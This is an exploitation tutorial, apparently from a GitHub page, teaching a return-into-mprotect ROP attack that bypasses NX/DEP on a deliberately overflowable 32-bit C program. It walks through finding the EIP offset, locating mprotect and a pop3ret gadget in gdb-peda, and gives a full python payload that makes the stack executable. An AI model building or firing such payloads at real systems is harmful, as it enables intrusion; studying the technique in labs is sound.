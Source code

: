 ## ROP : pointer leaking + return-into-mprotect()

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

The address of ```mprotect()``` is ```0xf7f2d2e0```

```
gdb-peda$ p mprotect

$1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory

SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.

It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000

Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget

pop3ret = 0x8048882
```

Finally.

```
python -c "print
    '\xCC' * 524            # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'     # address of mprotect()
    +'\x82\x88\x04\x08'     # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'     # address of the stack
    +'\x00\x10\x02\x00'     # size of the stack
    +'\x07\x00\x00\x00'     # flag read/write/execute
    +'\xc0\xd2\xff\xff'     # payload on the stack ;)
    "
```

Now, you can notice that the stack is executable.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

[@tfairane](https://twitter.com/tfairane) greetz [@barrebas](https://twitter.com/barrebas)
